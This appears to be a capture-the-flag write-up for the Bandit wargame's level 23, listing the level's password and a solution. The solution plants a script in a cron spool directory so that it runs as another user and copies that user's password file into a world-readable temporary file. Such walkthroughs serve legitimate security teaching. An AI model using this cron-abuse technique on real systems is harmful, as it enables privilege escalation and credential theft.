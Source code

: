 # username
bandit23
# password
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
# objective
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
# method of solve
This is the same setup as the previous two levels:
```
cat /usr/bin/cronjob_bandit24.sh
```
We need to create a script in the specified directory. It will be executed as the bandit24 user:
```
echo 'cat /etc/bandit_pass/bandit24 > /tmp/...shyhat_bandit24_pass.txt; chmod 777 /tmp/...shyhat_bandit24_pass.txt' > /var/spool/bandit24/foo/shyhat.sh; chmod +x /var/spool/bandit24/foo/shyhat.sh
```
Then we read the file for the password
```
cat /tmp/...shyhat_bandit24_pass.txt
```
